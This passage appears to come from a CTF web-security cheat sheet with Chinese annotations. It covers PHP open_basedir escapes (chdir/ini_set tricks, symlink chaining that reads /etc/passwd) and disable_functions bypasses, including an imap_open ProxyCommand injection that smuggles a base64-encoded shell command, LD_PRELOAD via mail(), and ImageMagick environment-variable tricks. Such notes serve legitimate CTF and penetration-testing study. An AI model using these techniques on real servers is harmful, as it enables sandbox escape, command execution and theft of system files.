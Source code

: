- [phuck3](https://twitter.com/Blaklis_/status/1111586655134203904)

```php
chdir('img');
ini_set('open_basedir','..');
chdir('..');chdir('..');
chdir('..');chdir('..');
ini_set('open_basedir','/');
echo(file_get_contents('flag'));
```

- symlinks

```php
mkdir('/var/www/html/a/b/c/d/e/f/g/',0777,TRUE);
symlink('/var/www/html/a/b/c/d/e/f/g','foo');
ini_set('open_basedir','/var/www/html:bar/');
symlink('foo/../../../../../../','bar');
unlink('foo');
symlink('/var/www/html/','foo');
echo file_get_contents('bar/etc/passwd');
```

- Fastcgi
  - [link](https://github.com/w181496/CTF/tree/master/0ctf2019_qual/WallbreakerEasy)

- ...

## disable_functions繞過

- bash shellshock
- mail()
  - `sendmail`
  - putenv寫LD_PRELOAD
  - trick: [LD_PRELOAD without sendmail/getuid()](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)
- imap_open()
  ```php
  <?php
  $payload = "echo hello|tee /tmp/executed";
  $encoded_payload = base64_encode($payload);
  $server = "any -o ProxyCommand=echo\t".$encoded_payload."|base64\t-d|bash";
  @imap_open('{'.$server.'}:143/imap}INBOX', '', '');
  ```
- error_log()
  - 第二個參數`message_type`為1時，會去調用sendmail

- ImageMagick
  - [Command Injection](https://www.exploit-db.com/exploits/39766)
  - LD_PRELOAD + ghostscript:
    - Imagemagick會用ghostscript去parse `eps`
    - [Link](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#solution-2:-bypass-disable_function-with-ld_preload)
  - LD_PRELOAD + ffpmeg
    - [Link](https://hxp.io/blog/53/0CTF-Quals-2019-Wallbreaker-easy-writeup/)
  - MAGICK_CODER_MODULE_PATH
    - > it can permits the user to arbitrarily extend the image formats supported by ImageMagick by adding loadable coder modules from an preferred location rather than copying them into the ImageMagick installation directory
    - [Document](https://www.imagemagick.org/script/resources.php#Environment%20Variables)
    - [Link](https://github.com/m0xiaoxi/CTF_Web_docker/tree/master/TCTF2019/Wallbreaker_Easy)
  - MAGICK_CONFIGURE_PATH
    - `delegates.xml`定義處理各種文件的規則
    - 可以用putenv寫掉設定檔路徑
    - [Link](https://xz.aliyun.com/t/4688#toc-14)
